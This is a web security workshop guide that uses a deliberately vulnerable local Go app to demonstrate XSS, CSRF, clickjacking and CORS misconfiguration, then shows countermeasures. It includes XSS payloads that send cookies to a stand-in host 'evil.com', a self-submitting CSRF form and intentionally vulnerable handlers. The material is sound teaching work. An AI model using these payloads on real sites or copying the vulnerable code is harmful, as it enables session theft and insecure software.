




# Web Security Workshop: XSS, CSRF, Clickjacking, and CORS

## Purpose

In this workshop, you will learn the mechanisms of and countermeasures against common Web application vulnerabilities: XSS (Cross-Site Scripting), CSRF (Cross-Site Request Forgery), Clickjacking, and CORS (Cross-Origin Resource Sharing) misconfigurations, using an intentionally vulnerable application.

## Goals

- Understand the mechanisms of XSS (Stored/Reflected) and verify JavaScript execution.
- Understand the mechanism of CSRF and verify how unauthorized requests are sent on behalf of an authenticated user.
- Understand the mechanism of Clickjacking and verify visual deception techniques using iframes.
- Understand the mechanism of information leakage due to CORS misconfigurations and verify the importance of proper origin control.
- Understand defensive measures (escaping, tokens, header settings, CORS settings) for each vulnerability.

---

## Actors and Attack Flows

### XSS (Cross-Site Scripting)

An attacker embeds a malicious script into a web page and executes it in other users' browsers.



### CSRF (Cross-Site Request Forgery)

Tricks an authenticated user into sending an unintended request (like changing a password or email address) to a vulnerable site.



### Clickjacking

Uses a transparent iframe to make the user click a button different from the one they intended.



### Cross-Origin Data Leakage (CORS Misconfiguration)

A vulnerability where an attacker can obtain a user's sensitive data due to CORS misconfigurations (specifically `Access-Control-Allow-Origin: *`).



**Why does the attack succeed?**

1. **User is logged in**: The Cookie is stored in the browser.
2. **CORS is too permissive**: `Access-Control-Allow-Origin: *` allows the response to be read from any origin.
3. **Cookie is sent automatically**: The Cookie is sent even for cross-origin requests.
4. **Browser allows the response**: Since the CORS policy is `*`, JavaScript can read the response.

---

## Anti-patterns and Solutions

| Vulnerability | ❌ Dangerous Implementation | ✅ Secure Countermeasure |
| :--- | :--- | :--- |
| **XSS** | Output user input as-is in HTML | Escape output appropriately, set CSP |
| **CSRF** | Rely solely on Cookies for authentication | Use CSRF tokens, set SameSite attribute |
| **Clickjacking** | Allow iframe embedding from external sites | Set `X-Frame-Options` or CSP `frame-ancestors` |
| **CORS Misconfig** | Use `Access-Control-Allow-Origin: *` | Allow only specific origins; use `*` carefully |

---

## Architecture

This workshop provides both "Victim Site" and "Attacker Site" endpoints within a single Go application.

### Directory Structure

```text
infra/assets/web_security/
├── main.go         # Vulnerable application
├── go.mod
├── Dockerfile
└── docker-compose.yml
```

---

## Preparation

### 1. Start the Application

```bash
cd infra/assets/web_security
podman compose up -d
```

### 2. Verification

Access `http://localhost:8080` in your browser.

---

## Workshop Steps

### STEP 1: Stored XSS - Script Storage and Execution

Save a script in a board-like function and verify it executes every time the page is opened.

**Instructions:**

1. Navigate to the `Stored XSS Demo` page.
2. Enter `<script>alert('XSS!');</script>` into the input field and submit.
3. Verify that the page reloads and the alert is displayed.
4. Refresh the page and verify that the alert is displayed again (because it is saved in the database).

**What is happening?**

```text
User Input: <script>alert('XSS!');</script>
          ↓ (Saved without escaping)
Database:   <script>alert('XSS!');</script>
          ↓ (Output directly to HTML)
Browser:    Recognized as <script> tag → JavaScript executed
```

**Vulnerable Code (main.go:121-126):**

```go
for _, c := range data.Comments {
    // ❌ Vulnerability: Output user input directly without escaping
    fmt.Fprintf(w, "<li>%s</li>", c)
}
```

**Attack Variations:**

- `<script>document.location='http://evil.com?c='+document.cookie;</script>` → Cookie theft
- `<script>window.top.location='http://fake-bank.com';</script>` → Redirection to a phishing site

---

### STEP 2: Reflected XSS - Attack via URL

Verify that a script contained in URL parameters is reflected directly on the page.

**Instructions:**

1. Navigate to the `Reflected XSS Demo` page.
2. Access the URL with a script appended to the end:
   - `http://localhost:8080/xss/reflected?q=<script>alert(document.cookie);</script>`
3. Verify that the cookie information is displayed (accessible because the HttpOnly attribute is missing).

**What is happening?**

```text
URL Parameter: q=<script>alert(document.cookie);</script>
            ↓ (Embedded in HTML without escaping)
HTML Output:   <p>Search results for "<script>alert(document.cookie);</script>"...</p>
            ↓ (Interpreted as HTML by browser)
Execution:     JavaScript runs
```

**Vulnerable Code (main.go:129-132):**

```go
func reflectedXSSHandler(w http.ResponseWriter, r *http.Request) {
    q := r.URL.Query().Get("q")
    // ❌ Vulnerability: Embed query parameter directly into HTML
    fmt.Fprintf(w, "<h1>Search Results</h1><p>Results for \"%s\" were 0.</p>", q)
}
```

**Attack Flow (Example: Phishing Email):**

```text
Attacker-crafted URL:
http://victim-site.com/search?q=<script>location='http://evil.com/steal?c='+document.cookie</script>

↓ User clicks link in an email

Victim's Cookie is sent to the attacker's site
```

---

### STEP 3: CSRF (Cross-Site Request Forgery) - Impersonating Authenticated Users

Tricks an authenticated user into sending an unintended request.

**Instructions:**

1. Click `Login` to set the session Cookie.
   - Verify that `session_id` is set in DevTools → Application → Cookies.
2. Return to the `Victim Site` top page and confirm the current email is `victim@example.com`.
3. Click `CSRF Attack Page` under `Attacker's Links`.
4. Click the "Claim Prize!" button on the attacker's site.
5. Return to the top page of the victim site and verify that the email address has been changed to `hacker@evil.com` without your authorization.

**What is happening?**

```text
[Attacker Site HTML]
<form action="http://localhost:8080/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="submit" value="Claim Prize!">
</form>

↓ User clicks the button

Browser automatically attaches the Cookie:
POST /update-email HTTP/1.1
Host: localhost:8080
Cookie: session_id=secret-session-123  ← Automatically attached!
Content-Type: application/x-www-form-urlencoded

email=hacker@evil.com

↓ Server-side processing

"Authentication" via Cookie succeeds → Email address is changed
```

**Why does the attack succeed?**

1. **Browser Cookie Specification**: Cookies are automatically attached to requests to the same origin.
2. **Absence of SameSite Attribute**: In the demo, the `SameSite` attribute is not set, so Cookies are sent even for POST requests from other sites.
3. **Missing CSRF Token**: There is no mechanism to verify that the request was truly intended by the user.

**Auto-submission Version (Using JavaScript):**

```html
<!-- Automatically submits on page load -->
<body onload="document.forms[0].submit()">
    <form action="http://victim.com/update-email" method="POST">
        <input type="hidden" name="email" value="hacker@evil.com">
    </form>
</body>
```

---

### STEP 4: Clickjacking - Operation Hijacking via Transparent iframes

Uses a transparent iframe to make the user click a button different from the one they intended.

**Instructions:**

1. Click `Clickjacking Attack Page` under `Attacker's Links`.
2. A "Free Cookies Available!" page is displayed.
3. Notice the faintly visible "Confirm Transfer" page from the victim site behind the "GET COOKIES" button (semi-transparent for demonstration).
4. When you click "GET COOKIES", you are actually clicking the hidden "Confirm Transfer" button.

**What is happening?**

```css
/* Attacker Site CSS */
#victim-frame {
    position: absolute;  /* Absolute positioning */
    top: 0;
    left: 0;
    opacity: 0.4;        /* In a real attack, this would be 0.0 (fully transparent) */
    z-index: 2;          /* Placed in front of the background */
}

#fake-page {
    position: absolute;
    z-index: 1;          /* Background layer */
    /* "Free Cookie" fake page */
}
```text
┌─────────────────────────────────────┐
│    [Attacker Fake Page - z-index: 1]│
│  🍪 Free Cookies Available!         │
│                                     │
│     ┌───────────────────────────┐   │
│     │ [Victim Site iframe]      │   │
│     │ z-index: 2 (Foreground)   │   │
│     │ Confirm Transfer          │   │
│     │ [Transfer $1000] Button   │   │ ← Transparent/Semi-transparent
│     └───────────────────────────┘   │
│                                     │
│         [GET COOKIES] Button        │ ← Fake button
│         (Actually above iframe's)   │
└─────────────────────────────────────┘
```

**Vulnerable Code (main.go:162-182):**

```go
func transferHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ Vulnerability: Missing X-Frame-Options header
    // This allows the page to be displayed within an iframe on other sites

    fmt.Fprintf(w, `
        <h1>Confirm Transfer</h1>
        <button>Confirm Transfer</button>
    `)
}
```

**Button Alignment:**

```javascript
// Attackers identify the position of the victim's button and adjust the fake button
// padding-top: 105px → Matches the position of the victim's button
```

---

## Implementation of Countermeasures

### XSS Prevention

#### 1. HTML Escaping

Go's `html/template` package escapes variables by default.

```go
// ❌ Dangerous: Print without escaping
fmt.Fprintf(w, "<li>%s</li>", comment)

// ✅ Secure: Use html/template (automatic escaping)
import (
    "html/template"
    "net/http"
)

func storedXSSHandler(w http.ResponseWriter, r *http.Request) {
    // Template definition ({{.}} is automatically escaped)
    tmpl := template.Must(template.New("comments").Parse(`
        <h1>Comments</h1>
        <ul>
        {{range .Comments}}
            <li>{{.}}</li>  ← Special characters in {{.}} are automatically converted to &lt; &gt; etc.
        {{end}}
        </ul>
    `))

    tmpl.Execute(w, data)
}
```

**Mechanism of Escaping:**

```text
Input:  <script>alert('XSS')</script>
        ↓ Automatic Escaping
Output: &lt;script&gt;alert('XSS')&lt;/script&gt;
        ↓ Browser Display
Screen: <script>alert('XSS')</script> (Displayed as text; script does not execute)
```

#### 2. HttpOnly Cookie

```go
http.SetCookie(w, &http.Cookie{
    Name:     "session_id",
    Value:    "secret-session-123",
    Path:     "/",
    HttpOnly: true,  // ✅ Prevents JavaScript access to Cookie
    Secure:   true,  // ✅ Send only over HTTPS
    SameSite: http.SameSiteStrictMode,  // ✅ Also helps against CSRF
})
```

#### 3. Content Security Policy (CSP)

```go
func main() {
    mux := http.NewServeMux()

    // Middleware to set CSP header
    mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        // ✅ Disallow execution of inline scripts
        w.Header().Set("Content-Security-Policy",
            "default-src 'self'; " +
            "script-src 'self' 'unsafe-inline'; " +  // Removing unsafe-inline is recommended
            "style-src 'self' 'unsafe-inline'")

        // ... Handler logic
    })
}
```

---

### CSRF Prevention

#### 1. Implementation of CSRF Tokens

A CSRF token is a mechanism to verify "whether the user actually saw the form and submitted it."

**Metaphor:**

```text
[Analogy of a Bank Transaction]

Bank: "Please sign this certificate." (Issue token)
Customer: Signs the certificate.
Bank: Verifies the signature → Confirms it's the customer's own operation ✓

Attacker: Tries to perform the transaction by impersonating the customer.
Bank: "Where is the certificate?"
Attacker: "I don't have it..."
Bank: "Unauthorized access!" ✗
```

**Step-by-Step Implementation:**

**Step 1: Issue a token on login**

```go
// Server-side memory (In production, use Redis, etc.)
var csrfTokens = make(map[string]string) // session_id -> token

// At login
sessionID := "user-session-123"
token := "abc123xyz456"  // Generate a random string

// Server records: "The correct token for this user is abc123xyz456"
csrfTokens[sessionID] = token

// Send the token to the browser via Cookie
http.SetCookie(w, &http.Cookie{
    Name:  "csrf_token",
    Value: "abc123xyz456",  // ← Correct token
})
```

**Step 2: Embed the token in the form**

```html
<!-- HTML form generated by the server -->
<form method="POST" action="/update-email">
    <!-- Embed the correct token in a hidden field -->
    <input type="hidden" name="csrf_token" value="abc123xyz456">
    
    <input name="email" placeholder="New email address">
    <button>Update</button>
</form>
```

**Check in DevTools:**

```html
<!-- What the user sees in the browser -->
<input type="hidden" name="csrf_token" value="abc123xyz456">
                           ^^^^^^^^^^^^^^
                           Attacker cannot see this (same as Cookie)
```

**Step 3: Normal request (When the user operates)**

```text
User clicks the "Update" button
         ↓
POST /update-email HTTP/1.1
Cookie: session_id=user-session-123
       csrf_token=abc123xyz456
Body: csrf_token=abc123xyz456&email=new@example.com
         ↓
Server Verification:
  - Token from Cookie: abc123xyz456
  - Token from Form:   abc123xyz456
  - Match! ✓ → Continue processing
```

**Step 4: Attacker's request (CSRF Attack)**

```html
<!-- Attacker Site HTML -->
<form action="http://victim.com/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <!-- ← No token! The attacker cannot know the correct token -->
</form>
```

```text
Request sent from the attacker's site:
POST /update-email HTTP/1.1
Cookie: session_id=user-session-123
       csrf_token=abc123xyz456  ← Cookie is automatically sent
Body: email=hacker@evil.com      ← No token!
      ^^^^^^^^^^^^^^^^^^^^^^^^
      No csrf_token parameter, or it's an arbitrary value
         ↓
Server Verification:
  - Token from Cookie: abc123xyz456
  - Token from Form:   (None or "dummy")
  - Mismatch! ✗ → 403 Forbidden
```

**Implementation Code:**

```go
// Token generation (Using cryptographically secure random numbers)
func generateCSRFToken() string {
    b := make([]byte, 16)  // 128-bit random value
    rand.Read(b)
    return hex.EncodeToString(b)
}

// Issue token on login
func loginHandler(w http.ResponseWriter, r *http.Request) {
    sessionID := "user-session-123"
    token := generateCSRFToken()  // Example: "a1b2c3d4e5f6..."

    // Record on server side
    csrfTokens[sessionID] = token

    // Send via Cookie
    http.SetCookie(w, &http.Cookie{
        Name:  "csrf_token",
        Value: token,
    })
}

// Embed token when displaying form
func showUpdateEmailForm(w http.ResponseWriter, r *http.Request) {
    token := getCSRFTokenForSession(r)  // Retrieve session token

    fmt.Fprintf(w, `
        <form method="POST">
            <input type="hidden" name="csrf_token" value="%s">
            <input name="email">
            <button>Update</button>
        </form>
    `, token)
}

// Verification of POST request
func updateEmailHandler(w http.ResponseWriter, r *http.Request) {
    if r.Method == http.MethodPost {
        // Token submitted from the form
        formToken := r.FormValue("csrf_token")
        
        // Correct token stored in the session
        sessionID := getSessionID(r)
        expectedToken := csrfTokens[sessionID]

        // Comparison
        if formToken != expectedToken {
            http.Error(w, "Invalid CSRF token", http.StatusForbidden)
            return  // ✗ Block the attack
        }

        // ✓ Token match → Continue processing
        updateEmail(r.FormValue("email"))
    }
}
```

**Key Points:**

1. **Unpredictable Token**: Generated with cryptographically secure random numbers.
2. **Unique per Session**: Different tokens for different users.
3. **Expiration**: Should expire after a certain period (recommended).
4. **One-time Use**: Invalidate the token once used (optional).

#### 2. SameSite Cookie

```go
http.SetCookie(w, &http.Cookie{
    Name:     "session_id",
    Value:    "secret-session-123",
    SameSite: http.SameSiteStrictMode,  // ✅ Sends Cookie only for requests from the same site
})
```

---

#### 3. Proper Configuration of CORS (Cross-Origin Resource Sharing)

**What is CORS?**

CORS (Cross-Origin Resource Sharing) is a mechanism where the browser controls access to resources from "different origins (domain, port, protocol)."

**Origin Examples:**

```text
https://example.com:443/api/data
       ^^^^^^^^^^^^^^ ^^^
       Origin         Path

Same Origin:
  ✓ https://example.com/api/data
  ✓ https://example.com:443/api/data

Different Origin:
  ✗ https://api.example.com/api/data  (Different domain)
  ✗ http://example.com/api/data       (Different protocol)
  ✗ https://example.com:8080/api/data (Different port)
```

**Why is CORS Necessary?**

Browsers have a security mechanism called **Same-Origin Policy**, which restricts requests to different origins. CORS is a mechanism to safely relax this restriction.

**What Happens Without CORS?**

```text
[User is visiting a malicious site]

Malicious Site: evil.com
<script>
  // Access the user's Gmail to steal emails
  fetch('https://mail.google.com/api/messages')
    .then(r => r.json())
    .then(data => steal(data));  // Data theft
</script>

↓ Without Same-Origin Policy

Browser: "Allowing request."
→ Attacker can access the user's private data!
```

**What Happens With CORS?**

```text
Request from the malicious site:
GET /api/messages HTTP/1.1
Host: mail.google.com
Origin: https://evil.com  ← Source origin

↓ Server checks CORS policy

Server: "Requests from evil.com are not allowed."
Access-Control-Allow-Origin: (None)

↓ Browser blocks the response

Browser: "CORS Error: evil.com cannot access this resource."
→ JavaScript cannot read the response ✓ Secure
```

**Mechanism of CORS:**

```text
1. Browser adds Origin header to the request
   Origin: https://example.com

2. Server adds Access-Control-Allow-Origin to the response
   Access-Control-Allow-Origin: https://example.com  (Allowed)
   Access-Control-Allow-Origin: *                        (Allow all)

3. Browser verifies the match
   - Match → Passes response to JavaScript
   - Mismatch → Throws error
```

**Vulnerability Due to CORS Misconfiguration:**

```go
// ❌ Dangerous Implementation: Allow all origins
func apiHandler(w http.ResponseWriter, r *http.Request) {
    // API can be called from any site
    w.Header().Set("Access-Control-Allow-Origin", "*")
    
    // Returns sensitive data
    json.NewEncoder(w).Encode(sensitiveData)
}
```

```html
<!-- Attacker can call API from another site -->
<!-- evil.com -->
<script>
  fetch('https://victim.com/api/sensitive-data')
    .then(r => r.json())  // No CORS error!
    .then(data => sendToAttacker(data));
</script>
```

**Secure CORS Configuration:**

```go
// ✅ Secure Implementation: Allow only specific origins
func apiHandler(w http.ResponseWriter, r *http.Request) {
    origin := r.Header.Get("Origin")
    
    // Only allow origins in the allowlist
    allowedOrigins := map[string]bool{
        "https://example.com":       true,
        "https://www.example.com":   true,
    }
    
    if allowedOrigins[origin] {
        w.Header().Set("Access-Control-Allow-Origin", origin)
        // If including credentials (Cookies, etc.)
        w.Header().Set("Access-Control-Allow-Credentials", "true")
    }
    
    // "*" cannot be used if credentials are included
    // Access-Control-Allow-Origin: *  ✗ Dangerous
    // Access-Control-Allow-Origin: https://example.com  ✓ Secure
}

// Handling Preflight Requests
func corsMiddleware(next http.HandlerFunc) http.HandlerFunc {
    return func(w http.ResponseWriter, r *http.Request) {
        origin := r.Header.Get("Origin")
        
        if origin == "https://example.com" {
            w.Header().Set("Access-Control-Allow-Origin", origin)
            w.Header().Set("Access-Control-Allow-Methods", "GET, POST, PUT, DELETE")
            w.Header().Set("Access-Control-Allow-Headers", "Content-Type, Authorization")
            w.Header().Set("Access-Control-Allow-Credentials", "true")
            w.Header().Set("Access-Control-Max-Age", "3600")
        }
        
        // Respond early to preflight requests (OPTIONS method)
        if r.Method == http.MethodOptions {
            w.WriteHeader(http.StatusNoContent)
            return
        }
        
        next(w, r)
    }
}
```

**Key CORS Headers:**

| Header | Description | Vulnerability |
| :--- | :--- | :--- |
| `Access-Control-Allow-Origin` | Allowed origin | Use `*` cautiously |
| `Access-Control-Allow-Credentials` | Allow sending credentials | Cannot be used with `*` |
| `Access-Control-Allow-Methods` | Allowed HTTP methods | Only necessary ones |
| `Access-Control-Allow-Headers` | Allowed request headers | Only necessary ones |
| `Access-Control-Max-Age` | Cache duration for preflight | Set an appropriate value |

**Preflight Requests (OPTIONS Method):**

```text
For complex requests (PUT, DELETE, custom headers, etc.):

1. Browser sends OPTIONS request first
   OPTIONS /api/data HTTP/1.1
   Origin: https://example.com
   Access-Control-Request-Method: PUT

2. Server returns permission
   Access-Control-Allow-Origin: https://example.com
   Access-Control-Allow-Methods: GET, PUT, DELETE

3. Browser sends actual PUT request
   PUT /api/data HTTP/1.1
   Origin: https://example.com
```

**Relationship Between CORS and CSRF:**

```text
[Before CORS]

fetch() from attacker site → Request can be sent
                          → Cookie automatically attached
                          → Response can be read
                          → CSRF attack is easy

[With CORS]

fetch() from attacker site → Request can be sent
                          → Cookie automatically attached (Outside CORS)
                          → Response is blocked
                          → Attacker cannot read response

*Note: Even if the response cannot be read, side effects (POST/DELETE, etc.) occur.
   → CSRF tokens and SameSite Cookies are still necessary.
```

**Summary:**

1. **CORS is browser protection**: Restricts reading responses from different origins.
2. **CORS doesn't fully prevent CSRF**: The request itself is still sent.
3. **Avoid `Access-Control-Allow-Origin: *`**: Forbidden for APIs requiring authentication.
4. **Don't forget preflight**: Respond properly to the OPTIONS method.

---

### Clickjacking Prevention

#### 1. X-Frame-Options Header

```go
func transferHandler(w http.ResponseWriter, r *http.Request) {
    // ✅ Completely prohibit iframe embedding
    w.Header().Set("X-Frame-Options", "DENY")
}
```

#### 2. Content-Security-Policy (CSP)

```go
func transferHandler(w http.ResponseWriter, r *http.Request) {
    // ✅ Control iframe embedding with frame-ancestors
    w.Header().Set("Content-Security-Policy",
        "frame-ancestors 'self';")  // Allow only same-site
}
```

---

## Defensive Countermeasures Checklist

| Vulnerability | Item | Check |
| :--- | :--- | :--- |
| **XSS** | Is user input being escaped? | □ |
| | Using automatic escaping (e.g., `html/template`)? | □ |
| | Is the HttpOnly Cookie set? | □ |
| | Is CSP configured to restrict inline scripts? | □ |
| **CSRF** | Is the CSRF token implemented? | □ |
| | Is the SameSite attribute set to Lax or Strict? | □ |
| | Is re-authentication required for critical operations? | □ |
| **Clickjacking** | Is the X-Frame-Options header set? | □ |
| | Is CSP frame-ancestors configured? | □ |

---

## Advanced Attack Techniques

### DOM-based XSS

Unlike traditional XSS, the server response is not vulnerable; the vulnerability arises when client-side JavaScript performs DOM operations.

```javascript
// Vulnerable Code Example
const hash = location.hash.substring(1);  // Get everything after # in URL
document.getElementById("output").innerHTML = hash;  // Insert without escaping
```

### Self-XSS

An attacker tricks a user into executing a malicious script themselves, often by claiming it's a "required command."

---

## Comprehension Check

### Quiz

1. **What is the difference between Stored XSS and Reflected XSS?**
   - <details><summary>Answer</summary>Stored XSS saves the attack code on the server, executing it whenever anyone views the page. Reflected XSS is executed immediately via URL parameters and is not saved.</details>

2. **Why are Cookies sent during a CSRF attack?**
   - <details><summary>Answer</summary>Browsers automatically attach Cookies to requests sent to the same origin. Without the SameSite attribute, they are sent even for requests originating from other sites.</details>

3. **What is the difference between X-Frame-Options: DENY and SAMEORIGIN?**
   - <details><summary>Answer</summary>DENY rejects all iframe embedding. SAMEORIGIN allows embedding only from the same origin.</details>

4. **Can a Cookie with the HttpOnly attribute be read by JavaScript?**
   - <details><summary>Answer</summary>No, a Cookie with the HttpOnly attribute cannot be read via `document.cookie`. This prevents Cookie theft via XSS.</details>

---

## Cleanup

```bash
podman compose down
```

---

## Troubleshooting

### Q: No alert is displayed

**A:** Your browser's XSS Auditor or similar features might be blocking the attack.

### Q: Email address is not changed after a CSRF attack

**A:** Check if the Cookie is set and the form action URL is correct.

### Q: Clickjacking iframe is not displayed

**A:** Your browser's iframe blocking features might be active.

---

## References

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [IPA: How to build secure websites (Japanese)](https://www.ipa.go.jp/security/vuln/websecurity.html)
- [MDN: Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
